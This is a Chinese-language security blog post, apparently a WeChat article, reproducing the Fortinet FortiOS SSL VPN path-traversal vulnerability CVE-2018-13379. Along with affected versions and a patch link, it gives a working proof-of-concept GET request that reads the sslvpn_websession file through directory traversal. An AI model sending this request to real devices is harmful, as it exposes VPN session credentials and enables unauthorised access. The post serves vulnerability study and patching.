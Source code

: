 #  Fortinet FortiOS 目录遍历漏洞(CVE-2018-13379)

弥天安全实验室  [ 弥天安全实验室 ](javascript:void\(0\);)

**弥天安全实验室** ![]()

微信号 gh_41292c8e5379

功能介绍 学海浩茫，予以风动，必降弥天之润！

____

___发表于_

收录于合集

#网络安全 25 个

#CVE 23 个

#漏洞 40 个

  

  

网安引领时代，弥天点亮未来  

  
  

  

  



![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616190602.png)  
 **0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616190602.png)  
 **0x01漏洞介绍**  
  

Fortinet
FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。

Fortinet FortiOS 5.6.3版本至5.6.7版本和6.0.0版本至6.0.4版本中的SSL VPN
Web门户存在路径遍历漏洞。该漏洞源于网络系统或产品未能正确地过滤资源或文件路径中的特殊元素。攻击者可利用该漏洞访问受限目录之外的位置。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616190602.png)  
 **0x02影响版本**  
  

  Fortinet FortiOS 5.6.3版本至5.6.7版本和6.0.0版本至6.0.4版本

![]()

  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616190602.png)  
 **0x03漏洞复现**  
  

1.访问漏洞环境

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616190606.png)

2.对漏洞进行复现

 **Poc  **

  *   *   *   *   *   *   * 

    
    
    GET /remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36Connection: closeAccept: */*Accept-Language: enAccept-Encoding: gzip, deflate

  

复现请求

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616190607.png)

  

3.nuclei工具测试（漏洞存在）

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616190608.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616190602.png)  
 **0x04修复建议**  
  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

  * 

    
    
    https://fortiguard.com/psirt/FG-IR-18-384

  

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616190611.png)

  

知识分享完了

喜欢别忘了关注我们哦~

  

学海浩茫，予以风动，必降弥天之润！

  

   弥  天

安全实验室  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230616190612.png)

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

